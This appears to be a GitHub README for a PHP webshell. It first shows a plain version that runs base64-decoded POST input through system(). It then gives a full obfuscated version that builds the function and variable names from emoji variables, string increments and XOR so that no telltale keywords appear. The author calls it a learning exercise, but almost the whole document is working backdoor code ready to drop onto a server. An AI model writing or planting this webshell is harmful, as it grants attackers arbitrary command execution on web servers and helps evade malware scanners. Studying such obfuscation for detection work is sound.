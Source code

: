 # php-emoji-webshell

🥸 Nothing new about this webshell, just use same techniques like XOR and self increment operations.

Basically this code
```php
<?php

$a = $_POST[4] ? base64_decode($_POST[4]) : 'whoami';
@system($a);

```
Turn into emoji, self increment and XOR operations.

```php
<?php

$_=[];
$_=@"$_";
$__=("_"=="_")+("_"=="_");
$_=@$_[++$__];

$🌏=$_++; // a
$🤮=$_++; // b
$🍪=$_++; // c
$🫣=$_++; // d
$🧁=$_++; // e
$🎂=$_++; // f
$🥃=$_++; // g
$🍔=$_++; // h
$🌘=$_++; // i
$🌗=$_++; // j
$🌖=$_++; // k
$🌕=$_++; // l
$🌒=$_++; // m
$🌓=$_++; // n
$🌔=$_++; // o
$🌰=$_++; // p
$🍘=$_++; // q
$🥗=$_++; // r
$🥥=$_++; // s
$🍑=$_++; // t
$🍋=$_++; // u
$🧇=$_++; // v
$🌮=$_++; // w
$🍕=$_++; // x
$🥯=$_++; // y
$🍣=$_;   // z

$__++;
$__++;
$__++;
$👿=$🤮.$🌏.$🥥.$🧁.$__;
$__--;
$__--;
$👿.=$__.("#"^"|").$🫣.$🧁.$🍪.$🌔.$🫣.$🧁;

$💀=$🥥.$🥯.$🥥.$🍑.$🧁.$🌒;
$🥳=("#"^"|").($🥥^"#").($🌕^"#").($🌰^"#").($🌮^"#"); 
$🤯=@${$🥳}[$__] ? $👿(@${$🥳}[$__]) : $🌮.$🍔.$🌔.$🌏.$🌒.$🌘;
@$💀($🤯);

```

Im just building this for fun and for the sake of learning new things. ☕️🥯
